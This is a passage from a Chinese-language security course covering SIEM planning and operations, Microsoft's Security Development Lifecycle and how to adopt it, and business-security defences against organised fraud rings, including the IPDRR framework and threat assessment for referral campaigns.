##### SIEM 需要管理哪些设备，收集哪些数据

这个列表需要根据我们的实际运营工作来进行**总结**。一般来说，我们可以根据黑客的攻击路径来进行梳理。 

比如，在 Web 攻击中，黑客首先需要发起 HTTP 请求。那么黑客会先在前端进行操作，然后 HTTP 请求经过防火墙、WAF，最终到达服务端。因此，前端、防火墙、WAF 和服务端对应的请求日志，我们都需要收集。

如果涉及进一步的权限提升，那黑客需要在服务器内进行操作，或者通过路由器、交换机访问其他服务器。所以，这些服务器、网络设备和 IDS 中的行为日志，同样需要收集。


##### 安全运营目前遇到的痛点的典型场景是什么，预期的解决方案又是怎么样的

安全运营最大的痛点有两个，一是**日志分散**，二是**日志无法关联**。通过日志收集功能，我们已经将日志进行了汇总，解决了日志分散问题。那日志间的关联问题该怎么解决呢？我们来看一个例子。

一次 Web 攻击要收集的日志有很多：网关上记录的一次 HTTP 请求，WAF 上对应的一次判定记录，服务端可能记录的具体请求参数。如果黑客攻击成功，那么系统上还可能留下一次命令执行的记录。如果我们想要将这些日志进行串联，还原完整的攻击链路，就必须要求SIEM 在各个日志中能**记录特殊的标记**。在 Web 请求中，这些特殊的标记通常是**用户 ID、IP 或者设备 ID** 等。

更复杂一些的，当 HIDS 发现了一起攻击时，你可能需要回溯黑客是怎么进入系统的，那我们就需要将 HIDS 中的日志，和 NIDS、WAF 等其他日志进行关联。但是，这些日志类型不同，没有能够贯穿始终的标记。这个时候，就需要 SIEM 能够通过额外的信息进行关联。比如，通过登录日志中的用户和 IP 关联 HIDS 和 NIDS 日志等。对这些关联关系的梳理和定义，决定了 SIEM 需要以什么形式存储日志。


##### 完整的安全运营流程是什么

我们最终设计出来的 SIEM，肯定不只是简单地堆砌一些功能。对于运营工作来说，工具和标准化流程同样重要。如果在实际工作中，运营人员使用线上工具，执行的却是线下流程。这种状态切换导致的时间消耗，对于运营工作来说反而得不偿失。因此，在数据分析完成之后，我们需要依据运营工作的需求，整合出 SIEM 需要的管理功能（比如：工单、报表），形成一个完整的运营流程。 

通过对这些需求的分析和整理，我相信你已经能够清晰地预估 SIEM 的完整形态了。那么，不管是你自己设计、研发，还是采购商业的 SIEM 平台，你都能够进行合理地功能分析和收益评估了。


#### 建设阶段

在完成需求设计之后，就进入 SIEM 平台的建设阶段了。首先，SIEM 要收集各种设备和应用的日志，每个公司的设备和应用都有很多，我们没有能够取巧的方式，只能**一个一个进行对接**。可想而知，SIEM 的建设一定是一个十分漫长的过程。SIEM 的实施周期长、成本大，所以我们的预期常常很高，很容易产生达不到预期的失落感。

那么，我们应该如何去**建立正确的预期**呢？最简单有效的方法就是建立短期预期，并且快速迭代。比如，在最开始的建设阶段，SIEM 只需要满足日志管理，也就是满足我们在一个统一的平台查看各个日志即可，至于如何去分析数据、产出报表，我们可以放到下一个迭代周期去规划。在明确了这些可实现的预期之后，我们就能理清每个迭代周期的工作，也能够增强公司对 SIEM 这个长期项目的信心，从而获得更好地支持。


#### 运营阶段

在收集到部分常用日志，有了基础的数据分析能力之后，安全运营人员就可以使用 SIEM 平台进行运营分析工作了。

但是，SIEM 平台的运营和建设阶段并不是完全独立的。因为，SIEM 平台的建设需要通过不断地短期迭代进行推进。SIEM 平台建设迭代周期主要参考的，就是运营阶段 SIEM 平台的使用情况和产生的需求。

这样一来，SIEM 平台就能够以不断满足安全运营需求为导向，持续**完善自身功能**，最终大大提升安全运营人员的工作效率。


### SIEM 落地中有哪些常见问题

现在，相信你已经知道 SIEM 平台落地的几个主要步骤了。除此之外，我还想强调 SIEM 落地中几个常见的问题。

#### 垃圾数据太多

如果你接触过大数据分析，你应该听说过“Garbage in，garbage out”。SIEM 的本质其实也是一个**大数据分析的平台**，它同样对数据的质量有着极高的要求。

因此，在考虑 SIEM 的数据收集需求时，我们需要思考清楚哪些日志对 SIEM 有用，基于这些日志，你是否能够解决安全运营问题。这样一来，SIEM 就不会变成一个只用来存储大量无用数据的“垃圾场”了。


#### 数据维度缺失

数据维度缺失对 SIEM 来说，同样是一个致命伤。为什么这么说呢？SIEM 中的数据都是需要**长期积累**的，某些历史数据一旦缺失就很难有办法补充。因此，经常会出现在使用 SIEM的过程中，我们突然发现某些**关键字段缺失**，导致事件排查中断。

比如，对于一次网络请求，我们可能会记录的日志字段包括：时间、源 IP、目标 IP 等。但是，当出现一起安全事件时，你除了要知道是哪个 IP 发起的请求，可能还需要进一步挖掘是哪个用户或者哪个进程发起的这次请求。这个时候，如果数据维度缺失了，就会出现没有日志可以进行关联的情况，分析运营工作也就无法继续下去了。


#### 人员投入不足

SIEM 平台实际上是对安全运营工作的一个线上化呈现，而运营工作始终是需要依靠人来进行主导的。很多公司乐观的认为有了 SIEM 平台，就不需要专门的人员来维持安全运营工作了。

事实上，**SIEM 只是一个管理的工具**，它无法自己运行，需要有人去使用它。除此之外，随着安全的对抗升级，运营工作的需求也会不断更新，SIEM 自身的迭代升级会一直持续。因此，SIEM 需要有一个完整的安全团队来进行长期的维护。


### 总结

安全的发展，前期在于技术建设，长期在于运营升级。

SIEM 就是在安全运营升级过程中，为公司提升效率、加强管理的一个工具。SIEM 通过收集各个系统和设备的日志，能够为我们提供安全统一管理的基础数据。然后，通过对常见的数据分析和报表展示，SIEM 可以帮助我们快速排查安全事件、进行事件管理，同时满足数据报表甚至合规审查的需求。

你可能听说过这样一句话“技术总是短期内被高估，在长期内又被低估”。SIEM 也是一样。SIEM 的落地和生效是一个长期发展的过程，很难在短期内有十分明显的收益。所以，我们需要做好长期规划、明确需求，同时拆解目标，一步一个脚印去迭代发展，才能最终将SIEM 长期稳定地运营和使用起来。 


### 思考题

如果你的公司使用了很多安全产品，你想要对这些产品进行统一的管理和运营。那么，你需要 SIEM 收集哪些日志、提供哪些数据分析的能力，来帮助你进行高效运营呢？ 


## SDL：安全开发生命周期

安全漏洞的源头是开发，只有当开发人员写出了包含安全漏洞的代码，黑客才有可乘之机。因此，如何保障开发**写出更“安全”的代码**，是安全防护工作中最关键的一环。

2004 年，微软提出了 **SDL（Security Development Lifecycle，安全开发生命周期）**。因为对安全和隐私的考虑贯穿了整个软件的开发进程，SDL 能够帮助开发人员写出更“安全”的代码，在解决安全合规需求的同时，也能减少由安全问题带来的损失。

和安全标准一样，**SDL 本质上是一个宏观指导性质的框架**。但是，它确实成为了很多公司建设安全开发体系的参照标准。各个公司依据微软的 SDL 标准，结合自身的实际情况，衍生出了适合公司自身发展的 SDL。

### SDL 中的基础概念

我们先来看一个软件开发中的经典概念：**软件开发生命周期 DLC（Software Development Life Cycle）**（这个概念的英文缩写种类比较多，为了和 SDL 区分，我们用DLC 代表软件开发生命周期）。SDL 是以软件开发生命周期为基础发展成的安全框架，所以，了解 DLC 能够帮助我们更好地认识 SDL。

**DLC 将软件开发过程分为 5 个阶段：需求分析、设计、开发、测试和部署**。DLC 对 5 个阶段的具体描述，都是以业务功能为核心进行展开的，并没有涵盖安全的工作。这显然不安全。

而且我们都知道，安全问题对公司的威胁是客观存在的。因此，很多公司将安全纳入到测试的工作中。但是，这种做法会导致两个问题：

- 第一，安全问题要等到软件开发完成后才能发现。这个时候，因为一个安全隐患（不是 BUG），让开发人员重启开发流程，推动上会遇到较大的阻力；
- 第二，只能关注到最终完成的软件，往往会导致安全人员因为对业务了解不足，漏过一些安全隐患。

这些问题的出现，让业内亟需一个能够更好地满足安全需求的软件开发流程，SDL 也就应运而生了。


### 什么是 SDL

SDL 的出现不是为了颠覆传统的 DLC 框架，而是希望在 DLC 中加入足够清晰的安全需求，以此来为软件开发的过程提供完整的安全防护。SDL 的标准执行流程有 7 个步骤：安全培训、需求分析、设计、开发、测试、部署和响应。流程如下图： 


接下来，我们就一起来看一下，这些步骤中都包含哪些安全工作。


#### 培训

在 SDL 中，安全培训是第一步。之所以会这么设计，就是因为很多公司都对安全人员给予了**过高的期望**，认为他们能够解决一切的安全问题，而忽略了对开发、测试、运维等人员的安全意识培训。这就导致安全人员一直处于一个“救火”的状态，无法从根本上杜绝安全问题的产生。

因此，SDL 中明确提出：开发、测试、运维和产品经理每年至少进行一次安全培训。培训的内容包括安全概念和框架、威胁评估、Web 安全、安全测试以及隐私保护等。


#### 需求分析

SDL 要求在需求分析的过程中，我们必须把**安全防护的需求**考虑进来。在需求分析阶段，安全人员提出的防护需求主要包括三个方面。 

- 安全标准：为软件制定对应的安全标准。比如，需要对敏感数据进行加密存储、需要进行二次认证等。
- 安全指标：定义软件在上线时需要满足的安全指标。比如，在上线时，软件必须经过安全测试，且不允许存在任何高危漏洞。
- 风险点评估：安全人员会对整体需求进行评估，找出需要对安全性重点关注的部分，也就是风险点。比如某个需求会使用到用户的隐私数据，那么风险点就是这些隐私数据。 

这三个方面的安全需求，能够为软件开发划定最低的安全保障，也能够时刻提醒软件开发环节的各个人员保持对安全的关注。


#### 设计

对需求进行分析整理之后，我们就需要对软件的功能和架构进行设计了。那我们都需要设计些什么呢？其实就是为后续的开发、测试和部署环节制定响应的方案和计划。针对上面整理出的三个方面的安全需求，我们也需要在设计环节中，给出具体的实现方案。 

- 为安全标准确定具体的实施方案。比如，对敏感数据作加密存储，那么，具体的加密算法是什么，密钥怎么生成和存储，都需要在设计阶段确定方案细节。
- 安全指标的响应方案则是在软件开发方案中，尽可能地考虑安全问题，降低可能出现风险的概率。比如，依据最小权限原则，明确软件每个用户和角色能够进行的操作。或者确定审计需求，明确各个阶段需要记录的日志及时发现攻击行为。
- 对于需求阶段定义的风险点进行完整的风险评估。依据识别数据、攻击和漏洞的方式，明确需要采取的安全防护机制，提升这些关键风险点的安全性。 

在设计的过程中，我们需要对安全和开发成本进行平衡考量，使得最终的安全设计方案能够被所有项目人员认可。


#### 开发

在开发阶段，安全人员的工作则是尽可能地避免开发人员的代码出现安全问题。那究竟应该怎么做呢？其实，我们可以通过**限制工具和方法、定期审查代码**来实现。

首先，我们可以限制开发人员使用的工具和方法。比如：为了避免插件漏洞，我们可以只允许开发人员使用通过我们验证的插件和工具；为了避免 SQL 注入漏洞的出现，我们可以限制开发人员使用字符串拼接的方式执行 SQL 等。

其次，我们也需要对开发人员产出的代码进行定期的安全审查，通过人工或者工具分析，发现一些没有得到限制的安全漏洞。比如，没有对用户的输入进行验证等。


#### 测试 

在测试阶段，测试人员会对软件的功能进行测试，安全人员需要**对软件的安全性进行测试**。测试的内容主要包括两个方面。

一方面，我们需要评估软件是否符合当初的安全设计方案，是否存在不一致的地方。有的时候，虽然我们在设计的时候考虑了最小权限原则，但是在实际开发的过程中，也可能由于开发人员的理解偏差或者 BUG，导致权限滥用的出现。因此，在测试阶段我们需要依据当初的安全设计方案，一项一项去确认是否符合要求。

另一方面，我们要进行动态的安全测试。动态测试的方法有两种，执行漏洞扫描和进行模糊测试。漏洞扫描很好理解，我们可以通过向软件发起一些测试性的攻击脚本，来验证是否存在漏洞。模糊测试就是不断向软件发起随机或者异常的请求，然后看软件是否出现报错等情况，以此来检测可能存在的漏洞。


#### 部署

在测试完成之后，软件就可以准备部署上线了。

到这一步，可以说安全人员已经把安全漏洞出现的可能性降到最低了。但是，我经常说“没有 100% 的安全，安全人员需要随时为可能发生的安全事件做好防护准备"，所以，在软件上线前，我们需要做好**安全预案**。

我来举个**例子**。一旦出现数据泄露事件，运维人员必须第一时间对数据库进行隔离，开发人员需要下线软件相关功能，产品人员需要做好用户的安抚工作，安全人员需要立即对相关日志进行保存，然后分析事件产生的原因。这就是一个安全预案的基本框架，但是每一步的具体操作，还需要我们根据实际情况来细化。

预案准备完成之后，我们还需要再一次进行安全确认工作。这个过程主要是来确定，软件的整个开发流程是否有严格按照既定的 SDL 流程进行，以及最终的软件是否满足我们开始提出的三个安全需求。

在各项事情都确认完毕之后，我们就需要对整个项目进行**归档**了。归档之后，包括代码、需求列表、设计方案和应急预案在内的所有的内容都不允许改动。

完成了安全预案、安全确认和归档之后，我们就可以进行软件的最终部署上线了。 


#### 响应

软件上线之后，安全人员所需要做的，就是**及时响应和处理安全事件**。这就需要用到我们在部署阶段制定的安全预案了，为了执行这个安全预案，我们需要成立**安全应急响应小组**。这个小组的工作就是对安全事件以及外界的漏洞情报进行监控，一旦发现安全事件立即对事件进行评估，决定需要启动的安全预案。通过安全应急响应小组，我们可以保持对线上软件安全的时刻监控，保障软件的安全和稳定。

现在，相信你已经能够理解 SDL 是如何从根源上解决安全问题的了。我来简单总结一下：SDL 通过安全培训来解决人的问题，然后在需求和设计阶段提出安全需求，在开发和测试阶段发现安全漏洞，最终在部署和响应阶段处理安全问题。


### 如何推动 SDL 落地

尽管 SDL 能够从根本上解决安全问题，但是 SDL 的落地却依然**存在较大挑战**。最主要的原因就在于，SDL 更像一个规章制度，它必须获得开发人员的认可，而大部分的开发人员很排斥安全制度。

尽管如此，为了提升公司的整体安全性，我们要尽力推动它落地。那究竟该怎么做呢？我们可以从三方面入手，降低推动 SDL 落地的难度。

#### 我们要基于现有的制度拓展 SDL

如果公司已经比较成功地实施了 DLC，那 SDL 的成功落地就已经实现一半了。因为这说明，开发人员已经在一定程度上认可或者接受了这种制度化，我们只需要在此基础上再加入一部分安全内容，就能实现 SDL 的落地了。这对开发人员的影响不大，也就更容易接受。

因此，我个人建议不要从零开始强推 SDL，应该循序渐进，先定义好普通软件开发的制度，再加入安全元素。

#### 我们在落地 SDL 的时候要灵活变通，不要生搬硬套

SDL 的执行流程非常厚重，如果我们严格按照 SDL 的标准流程执行，在软件开发的每个步骤中加入一定的安全工作，这无论对谁都是不小的负担。所以，我们要**根据公司的实际情况灵活变通**。 

变通的方法有很多，实现方式上的变通是最常见的一种。我来说几个常见的例子。 

- 将安全培训加入到公司定期举办的内部技术交流分享会中。这样一来，既不会因为强制培训的要求引发开发人员的不满，又能提升培训的效果。
- 在制定安全方案的时候，将安全扫描加入到开发提交代码、检测代码质量的过程中，这样就能避免开发人员更改开发流程。 

总之，实现方式上的变通就是将 SDL 的各个环节按照开发人员最认可的形式，进行灵活的设计和运转，提升 SDL 的落地效率。

#### 在 SDL 的覆盖面上，我们也可以有所取舍

每个公司都有大大小小的多个业务线，让每个业务线都严格遵守这个 SDL 流程，是很难实现的。因此，对于一些量级小、敏感数据少的业务，我们可以**适当降低安全标准**。

以开发设计环节为例，我们可以不需要根据具体业务提出具体的安全需求，而是梳理出一份包含**常见的安全设计方法的通用列表**（包含认证规范、加密标准等）。然后，直接将这个列表发放到开发人员手上，让他们自评。这样既提升了开发人员的工作效率，又降低了我们的工作量。


### 总结

SDL 可以从根源上解决安全问题：通过加入安全的角色和职责，SDL 让安全贯穿软件开发的整个生命周期；通过事前的培训和事后的应急响应，SDL 为软件提供了额外的安全防护保障。

尽管 SDL 非常实用，但是它的落地仍然面临很多问题。为了推动 SDL 落地，我们要基于公司已有的开发流程和机制，灵活部署 SDL。这样我们才能在做出最小改变的情况下，仍然将安全贯穿于软件开发的各个流程之中，提升公司整体的安全性。

目前，安全仍然是一个比较特殊的工作，并没有纳入到软件开发的必备工作中去，这也是SDL 在国内成功案例并不多的一个主要原因。但是我相信，正如微软等老牌企业的发展历程一样，随着 IT 行业的不断发展，安全工作会和测试工作一样，逐渐变成一个必备环节。SDL 也会成为各个公司的核心规则制度，被大部分人接受。


### 思考题

SDL 的成功落地需要开发人员的支持和安全人员的高效率工作。你可以思考一下，在 SDL落地的开发和测试中，有哪些工作是可以通过工具来自动或者半自动化的完成的呢？这些工具的工作原理又是怎么样的呢？ 


## 业务安全体系

近几年，随着互联网的快速发展，很多公司为了获取用户增长，在业务中投入了大量的资本。向来都是**向钱看齐**的黑客（在业务安全中，我们称之为黑产），自然就将攻击的重心放到了业务中。业务安全也变得越来越热门，成为各大公司安全投入的重心之一。

对比于**传统的基础安全**，业务安全有哪些特点呢？为什么它能够成为一个独立的领域呢？在业务安全中，我们需要重点关注的防护方法又有哪些呢？ 

以上这些问题，在这个模块中我会详细来讲。今天，我们先从业务安全的特点和防护重点入手，让你对业务安全的体系和框架有一个清晰的认识。

### 如何理解业务安全

学习一个新知识的最好方法，一定是从我们学过的知识入手。所以，今天我会对比基础安全，来帮助你理解业务安全。**基础安全其实就是我们前几个模块关注的安全攻防视角下的安全概念和知识，也叫网络安全**。

想要理解业务安全，我们先来认识一下黑产。**黑产是基于正常的业务产品逻辑，采取非正常或者批量的操作，来获取利益的行为**。业务安全就是通过各类产品策略，来对黑产进行识别和拦截，从而保障业务的正常运行。

你一定见过，或者参加过**“红包雨”领红包**的活动。在活动中，用户可以通过“红包雨”游戏领取一定金额的红包，金额大小由前端决定。通过这个例子，我们来对比一下黑客和黑产的攻击。

在基础安全的攻击视角中，**黑客会逆向前端代码**，找到最终决定金额的逻辑，然后自己伪造一个大额的红包请求。这样一来，黑客就可以不用玩游戏，同时还能获得一个大额的红包。在业务安全的攻击视角中，**黑产会开发一个自动玩游戏领红包的工具**，操纵大量的账号来参与活动。最终，将各个账号的小额红包汇总到一个账号下，从而实现获利。

### 黑产和黑客有哪些差异

从前面的例子中，我能够看出，黑客在基础安全和业务安全中的攻击方式有很大不同，那它们之间具体有哪些差异呢？

在基础安全中，黑客会通过各种 Web 安全或者系统安全的漏洞，对公司的系统和应用发起攻击，最终侵入公司系统，窃取敏感信息等成果。“黑客”原意是指擅长各类计算机技术的人，也就是在基础安全领域中，掌握各种高端技巧，能够发现并利用漏洞的攻击者。但是，在业务安全中，业内普遍将攻击者称为“黑产”。之所以会改换一个名称，我认为主要有两点原因。

#### “黑产”强调的是“产业化”

尽管黑客也存在很多组织，但黑客组织更多的是将一群黑客进行统一管理，实际发起攻击的仍然是单人或者小组。

相比于黑客，在业务攻击中，黑产已经形成了**完整的产业化链条**：

- 在上游，有人专门提供各类技术支持，如验证码绕过、手机群控、自动注册工具等；
- 在中游，有人专门收集大量的手机号、身份证号、银行卡号等信息，在应用内注册大量的垃圾账号；
- 在下游，有人利用工具和账号，进行薅羊毛、刷评论、欺诈等操作。

可以说，任何个人或者小的团体都没有办法发起业务攻击，必须依靠上游提供的各类资源，才能够实现真正获利。产业链的结构如下图所示： 


#### 黑客强调的是技术对抗，而“黑产”更看重资源对抗

对于黑客来说，只要技术足够强大，并且手里掌握着一些**“0 day”漏洞**，就能够以一己之力攻破公司的安全防御体系。但是对于黑产来说，其本质是资源对抗，所以不可能有类似黑客的“单兵作战”。那什么是资源对抗呢？

我们来看一个例子。现在有一个**“新用户注册得红包”的活动**，公司可能会给每个新用户发放 1 元的现金红包，以此作为用户增长的激励措施。这个时候，如果黑产注册一个新用户的成本是 2 元（需要手机号、银行卡等各种资源支持），那显然是一个亏本的买卖。因此，黑产需要想尽办法去降低注册资源的成本。如果是你，你会怎么做呢？

生活中就有很多这样的例子。以前，你想要骑一辆自行车，需要花几百块钱买一辆。而现在，你花上一块钱，就能够骑上共享单车，还能够“随停随走”。黑产的资源对抗也是利用的这种**“共享”思想**：在黑产的中上游，由专门的团伙负责大批量收集各类资源，供很多下游团伙使用，这样就能在很大程度上降低黑产发起攻击的成本。

现在，黑产购买一个手机号的成本只需要几毛钱，而互联网应用获取一个新用户需要花费几十元，这其中的利益之大可见一斑。

从黑客与黑产之间的攻击差异中，我们能够发现基础安全和业务安全的核心差异。基础安全是防御黑客的技术攻击，避免漏洞。业务安全是防御黑产的资源对抗，避免正常业务被攻击。


### 业务安全如何防护

在基础安全中，我们说过应用的本质是数据，安全的本质是数据的 CIA，我们可以通过黄金法则来保护数据。那么，对于业务安全来说，我们的防护思路又是怎么样的呢？

我们还是要从业务的本质入手来解决问题。我认为，**业务的本质是一种投资，也就是公司投入成本来获取用户价值**。投入的成本包括应用开发的成本、服务的成本以及获取用户的成本等。

用户的价值也多种多样，直接的如收取用户的服务费用，间接的如通过用户来获取广告收益、通过用户来吸引商家入驻收取租金等。那黑产是如何从中获利的呢？

**黑产的获利手段是通过廉价的资源，降低用户的价值，从而赚取公司投入的成本**。

因此，业务安全的本质就是保障用户价值不受黑产的恶意影响。保障的方法就是提高黑产的资源成本，使得黑产无法获利。这也就是我所说的，业务安全的本质其实就是资源层次上的对抗。

那我们应该如何进行资源对抗呢？首先，我们要知道，黑产需要进行哪些资源投入。一般来说，黑产会从四个方面进行资源投入，分别是：用户资源、IP 资源、设备资源和操作资源。

#### 用户资源 

黑产通常需要获取大量的用户身份，来进行大规模的业务操作，才能实现获利。这是因为，应用通常会要求用户绑定各种信息，比如手机号、身份证、银行卡等。而黑产需要满足应用的强制绑定要求，才能获得用户身份。因此，这些手机号、身份证以及银行卡等，其实就是黑产必须投入的用户资源。

现在，黑产有很多办法可以获取这些用户资源。我来总结了几个常见的方法： 

- 通过虚拟运营商或者物联网卡来获取大量非实名手机卡
- 在网上搜集各类泄漏的身份证图片
- 在偏远地区支付十几块钱，买到他人的手持身份证照片和视频
- 在类似注册任务贴吧这样的任务群中，注册一个账号之后，再转手卖给黑产 

对于用户资源的对抗，目前主要的方式就是黑名单。这里，我把**黑名单的防护流程**总结了一张图。 


从上图中我们可以看到，用户黑名单主要有两种收集方式：内部收集和外部采购。其中，内部收集是基于用户在业务内部的行为进行判定的，流程相对复杂一些，而外部采购是直接购买汇总好的黑名单。这样一来，我们就利用黑名单实现了对黑产的拦截。


#### IP 资源

黑产往往是在同一个地方进行大量操作的，IP 相对固定。所以，任何公司做业务安全的第一步，都是**对 IP 进行限制**，常见的手段是**限制一个 IP 下能够登录的用户数量**。为了绕过这种安全防控机制，黑产必须掌握大量的 IP 资源。

如果你有做过**爬虫**，一定知道通过 **快代理** 这种网上的免费代理，来绕过反爬机制。而黑产更高级一些，黑产会利用**“秒拨 IP”来**获取大量 IP 资源。所谓“秒拨”，就是指每一次拨号上网，都会分配一个新的 IP 给我们。只要持续地断网、拨号，我们就能够获得大量的IP 资源。

下图是某个代理 IP 网站的报价，我们可以看到，目前代理 IP 的价格最低只要 0.5 分钱。也就是说，黑产只需要付出很少的成本就能获得大量 IP 资源。 


事实上，我们目前很难对 IP 资源进行有效防控。IP 的变化十分频繁，一个 IP 上一分钟可能是黑产在操作，下一分钟可能就被正常用户所使用了。所以，即使我们能基于业务数据确定一个 IP 存在异常，也**没有办法对它进行黑名单处理**。


#### 设备资源

在正常情况下，一个设备对应一个账号。但是，黑产可能会需要在一个设备上使用几十个账号进行操作，这就很容易被应用和公司检测到异常。因此，黑产必须想办法获取大量的设备。 

黑产获取设备的方法比较多，最简单的一种是通过**模拟器**来模拟设备。但是，很多公司会对前端进行检测，来发现模拟设备。因此，黑产也就从使用模拟设备升级为**使用真实的手机**。所以，很多黑产案件中都会出现由大量手机设备组成的**“手机墙”**。除此之外，也有上游团队将手机做成云控模式，下游黑产可以直接花钱购入**可远程操控的真实手机设备**。

设备资源的**对抗原理是对虚拟设备进行识别**。这就需要依赖业务安全中比较关键的设备指纹技术了。所谓**“设备指纹技术”**，就是收集设备上的各类特征，对设备进行追踪，然后基于设备的行为和信息，判定是虚拟设备还是人为操作，以此对黑产进行拦截。


#### 操作资源

黑产需要正常使用业务才能获利，所以在操作上会和正常用户一样**花费时间和精力**。这对黑产来说，也是一个不小的成本。

比如说，在开头的例子中，用户参加“红包雨”游戏领取红包的过程，就是一个操作的过程：用户为了领取一个几毛钱的红包，在 APP 上花几分钟玩一个游戏。这显然对黑产是不合算的。因此，黑产会尝试使用一些**自动化的工具**，比如 按键精灵，让机器来完成游戏的过程。这样一来，黑产就释放了人力的操作资源投入，大大降低了操作成本。

所以说，我们和操作资源的对抗，就是在和黑产的自动化工具进行对抗。公司为了区分“人”和“机器”的操作，就需要使用**验证码**（如图片验证码、滑块验证码等）。通过这类“人”很容易完成，但“机器”很难完成的验证方式，黑产就没办法全自动地完成交互，我们也就提高了黑产的操作成本。


#### 小结

总之，业务安全的防护核心就是**提高黑产的资源成本**。

为了帮助你理解这 4 种资源的核心特点，我整理了一个表格供你参考，如下图所示： 


### 总结

业务安全和基础安全在本质上就有很大的不同：在基础安全中，黑客将技术作为核心竞争力；在业务安全中，黑产将资源作为核心竞争力。谁能够以更低的成本掌握更多的资源，谁就能窃取公司更大的利益。因此，作为防守方，我们在关注业务安全的时候，也应当将关注的重点放在如何提高黑产的资源成本上，这样才能够为公司提供有力的业务安全防护。 


### 思考题

今天，我们讲了几个黑产必须要掌握的资源。你可以思考一下，假如你掌握了这些资源，你会如何对你的业务发起攻击？又会如何获利呢？ 


## 产品安全方案

在上一讲中，我们探讨了业务安全和黑产（也叫黑灰产），知道了业务安全的本质就是资源对抗，业务安全的防护手段就是**提高黑产的资源成本**，并且针对不同的资源类型，我们需要采取不同的方法来进行对抗。

在基础安全中，我们提出了“黄金法则”作为总体思路，来对各个防御手段进行梳理。那么，在业务安全中，我们有没有什么方法论可以作为参考呢？这一讲，我们就来聊一聊提高黑产资源成本的方法，以及如何从根本上防御黑产。

### 业务安全中的防御框架是什么

在 安全标准和框架 中讲过，我们可以通过 [NIST 的安全框架 IPDRR](#NIST： IPDRR )，在基础安全中构建出一道比较全面的纵深防线。在业务安全中，IPDRR 同样可以指导我们与黑产进行对抗。这里我总结了一张对比表格，你可以先了解一下 IPDRR 在基础安全和业务安全中的异同点。 


接下来，再看我对**业务安全中 IPDRR** 内容的重点讲解。 

- Identify（识别）：和基础安全一样，业务安全的识别阶段主要是进行威胁评估的工作。我们需要找到黑产可能获取到的业务逻辑中的投入成本，比如，应用发放的红包、优惠券等。
- Protect（保护）：在业务安全中，我们是通过产品方案来实施认证和授权过程的。比如，对于登录过程增加双因子认证和验证码等，就是加强认证的安全性。
- Detect（检测）：检测阶段主要是风控系统发挥作用。
- Respond（响应）：发现黑产的攻击后，我们可以通过封禁账号、拦截操作、拒绝提现等方式，来阻止黑产获取利益。
- Recover（恢复）：最后就是对整个系统进行恢复了。在业务安全中，黑产可能已经盗取了某些账号，或者已经领取了部分红包。这时，我们就需要通过合适的运营机制，将账号返回给原用户，把红包退回到奖金池中。 

以上就是业务安全中的 IPDRR，从中我们可以看出，业务安全的纵深防线也是环环相扣的，我们需要在各方面都进行防护，避免安全短板的出现。

IPDRR 的指导思想贯穿了整个业务安全的防御过程，内容很多也很重要。所以，今天我们先来看 IPDRR 中的前两个部分，识别和保护。


### 业务安全中的威胁评估怎么做（识别）

前面说了，在识别过程中，我们的主要工作就是威胁评估。在业务安全中，黑产的最终目的是窃取公司投入的成本来获取利益，但公司成本的具体表现形式很多，因此，业务安全中的威胁评估也更加复杂。下面，我就以一个典型的业务场景为例，总结在业务安全的威胁评估中，我们需要重点考虑的因素。

我们来看最近比较流行的**邀约活动**，几乎所有的 App 都会在拉新阶段开启各种各样的邀约活动。而且对于这类能够刺激用户增长的活动，公司都很舍得投入大量的资本，因此邀约活动是黑产聚集的“重灾区”。

邀约的逻辑：已注册用户可以通过邀请码的形式邀请新用户注册，注册成功后（可能需要新用户完成一定任务）双方都可以获得一定的奖励，如现金红包（可以参考**拼多多**）。

邀约活动的目的很明确，就是**拉取新用户为公司带来用户增长**。那对黑产来说，获利的方式就是通过大量注册小号，完成邀约任务，获得现金红包的奖励。现在的奖励金额一般是几块到十几块不等，因此，黑产的利润很高。

这个时候，如果公司想要拦截邀约活动中的黑产用户，需要考虑哪些因素呢？我认为需要重点考虑**实时性要求、漏判影响和误伤影响**这三方面因素。

- 实时性很好理解，就是我们要评估在哪个阶段对黑产进行评估和拦截。
- 所谓漏判，就是没有识别出黑产，让其成功获利。
- 而误伤就是正常用户被判定成了黑产，无法正常使用业务功能。


#### 实时性要求

选择拦截黑产的时机是非常重要的。一般来说，拦截时间越靠前就能越早拦截黑产，但是误伤对用户体验的损伤也越大，而拦截时间越靠后风险越小。除此之外，我们还要考虑业务的逻辑。比如，对于邀约活动来说，红包提现一般都需要审核。因此，我们不需要在邀约活动中实时拦截，只需要**在提现的时候进行拦截即可**。这样的拦截方式风险更小、效果更好。


#### 漏判影响和误伤影响

我们在指定业务安全防控策略的时候，漏判影响和误伤影响决定了策略的严格程度。如果漏判影响更大，就需要制定更严格的策略对黑产进行控制；如果误伤影响更大，策略要相对宽松，有的时候我们甚至可以放过一定的黑产来降低误伤。

对于邀约活动来说，在黑产刷走大量现金之后，**漏判影响是指公司有大量的资金损失**。这对公司来说并不致死，因为用户的正常邀约行为不会受到黑产影响。

误伤影响比漏判影响严重的多，**误伤一旦出现，就会让用户对邀约活动的真实性产生质疑**。如果你做过业务，一定知道，用户的信任是很难培养的。而一旦丧失了用户的信任，业务基本也就失败了。因此，公司基本不容许出现误伤的拦截。

总之，对于邀约活动的业务安全防御来说，**避免误伤是我们最核心的关注点**。为了避免误伤，我们可以将防御机制延后，避免对用户正常参与活动的流程产生影响。同时，我们可以将防控策略放宽，通过放过一定的黑产来降低误伤。


#### 小结

当然，还有很多其他类型的业务和活动，比如，微博中常见的排行榜、支付宝的集福抽奖活动，你可以试着对它们进行一次威胁评估工作，来看看在这些业务活动中，我们所面临的黑产威胁是什么样的，以及我们应该以什么样的态度去防御黑产。

这三种业务场景的威胁评估结果，我总结了一张表格，供你参考。 


上图中的评估结果就足够我们了解这些业务面临的黑产风险了，所以，对于任何一个业务来说，我们其实都可以从业务目标、黑产获利程度、实时性要求、漏判影响和误伤影响这 5个方面进行威胁评估。


### 如何利用产品方案防御黑产（保护）

对业务进行威胁评估之后，我们就需要为业务提供安全防护了。对业务安全来进行保护，就是为业务制定合适的安全产品方案，来提升黑产的资源成本，从而实现保护业务的目的。

#### 登录盗号例子

那么，安全产品方案具体是什么呢？我们来看**一个例子**。

在登录业务中，我们需要防止**盗号**的发生。这种情况下的安全产品方案就是提高黑产发起盗号的资源成本，比如，我们可以在产品机制上加入**二次验证机制，如短信验证**等。这样一来，黑产需要完成一次登录的成本就大大增加了。

